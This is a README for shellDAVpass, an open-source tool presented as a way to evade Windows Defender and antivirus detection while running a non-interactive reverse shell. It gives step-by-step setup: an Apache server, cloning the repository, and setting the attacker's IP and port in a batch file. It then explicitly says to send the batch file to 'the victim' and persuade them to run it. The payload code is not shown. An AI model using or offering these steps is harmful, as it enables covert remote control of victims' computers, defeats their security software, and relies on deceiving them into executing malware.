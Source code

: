 # shellDAVpass
shellDAVpass application is the Open-Source project, the main idea of which is to bypass the defender and AntiVirus detections to conduct a non interactive reverse shell to execute the Windows commands

Usage example:
--------------
```
1. Start your HTTP server. For APACHE under Debian (Ubuntu/Kali):
  systemctl start apache2.service 
2. The default port is 80. You are free to change it by editing /etc/apache2/ports.conf
  Listen 80
3. cd /var/www/html
4. git clone https://github.com/IvanGlinkin/shellDAVpass.git
5. chown -R www-data: shellDAVpass
6. cd shellDAVpass
7. nano shellDAVpass.bat
8. Change the IP-address and Port
  SET IPADDRESS=10.211.55.11
  SET PORT=80
9. Save the changings (by pressing CTRL+O and Enter. To exit, press CTRL+X)
10. !!! Send the shellDAVpass.bat to the victim and courage him/her to launch the file !!!
11. Launch the command prompt
  bash shellDAVpass.sh
12. Enter your commands
```
An original article:
--------------------
[https://www.ivanglinkin.com/shelldavpass-non-interactive-reverse-shell-to-bypass-the-defender-and-antivirus-detections/](https://www.ivanglinkin.com/shelldavpass-non-interactive-reverse-shell-to-bypass-the-defender-and-antivirus-detections/)

Video example:
--------------
[Watch the video](https://www.ivanglinkin.com/wp-content/uploads/2022/06/shellDAVpass-demo.mov)

Screenshots:
------------
![](https://github.com/IvanGlinkin/media_support/blob/main/shellDAVshell_image-1.png?raw=true)

![](https://github.com/IvanGlinkin/media_support/blob/main/shellDAVshell_image-2.png?raw=true)

![](https://github.com/IvanGlinkin/media_support/blob/main/shellDAVshell_image-3.png?raw=true)

![](https://github.com/IvanGlinkin/media_support/blob/main/shellDAVshell_image-4.png?raw=true)
